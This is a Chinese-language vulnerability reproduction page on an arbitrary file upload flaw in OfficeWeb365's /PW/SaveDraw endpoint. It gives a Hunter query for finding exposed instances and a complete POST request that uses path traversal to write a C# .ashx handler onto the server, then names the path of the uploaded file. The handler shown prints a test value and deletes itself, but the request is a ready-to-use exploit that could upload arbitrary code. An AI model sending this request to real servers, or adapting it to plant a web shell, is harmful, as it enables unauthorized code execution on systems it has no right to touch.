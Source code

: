 # OfficeWeb365 SaveDraw存在任意文件上传漏洞

# 一、漏洞简介
OfficeWeb365是西安大西信息科技有限公司开发的，专注于Office文档在线预览及PDF文档在线预览云服务，包括Microsoft Word文档在线预览、Excel表格在线预览、Powerpoint演示文档在线预览，WPS文字处理、WPS表格、WPS演示及Adobe PDF文档在线预览。广泛应用于OA办公系统、招聘网站、在线教育类网站，提高客户体验、增加产品竞争力。OfficeWeb365 /PW/SaveDraw存在任意文件上传漏洞。

# 二、影响版本
+ OfficeWeb365

# 三、资产测绘
+ hunter：`app.name="OfficeWeb365"`

![1692028029052-65569f24-4578-4a92-a007-d93c1b5b8f94.png](./img/SE9ISR0qOEH1QGWX/1692028029052-65569f24-4578-4a92-a007-d93c1b5b8f94-882686.png)

+ 登录页面

![1692028081742-18ce6201-05b3-4e01-a21c-4eca8dcf2636.png](./img/SE9ISR0qOEH1QGWX/1692028081742-18ce6201-05b3-4e01-a21c-4eca8dcf2636-273911.png)

# 四、漏洞复现
```plain
POST /PW/SaveDraw?path=../../Content/img&idx=11.ashx HTTP/1.1
Host: xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Content-Type: application/x-www-form-urlencoded

data:image/png;base64,<%@ Language="C#" Class="Handler1" %>public class Handler1:System.Web.IHttpHandler
{
public void ProcessRequest(System.Web.HttpContext context)
{
System.Web.HttpResponse response = context.Response;
response.Write(44 * 41);

string filePath = context.Server.MapPath("/") + context.Request.Path;
if (System.IO.File.Exists(filePath))
{
    System.IO.File.Delete(filePath);
}
}
public bool IsReusable
{
get { return false; }
}
}///---
```

![1701180007393-aa52d3f6-1378-4a67-be24-c41634aa5bbd.png](./img/SE9ISR0qOEH1QGWX/1701180007393-aa52d3f6-1378-4a67-be24-c41634aa5bbd-536589.png)

上传文件位置

```plain
/Content/img/UserDraw/drawPW11.ashx
```

![1701180072351-7554664d-c81e-48a1-b618-1218a79a505e.png](./img/SE9ISR0qOEH1QGWX/1701180072351-7554664d-c81e-48a1-b618-1218a79a505e-918752.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ws6vxp637qoycw2u>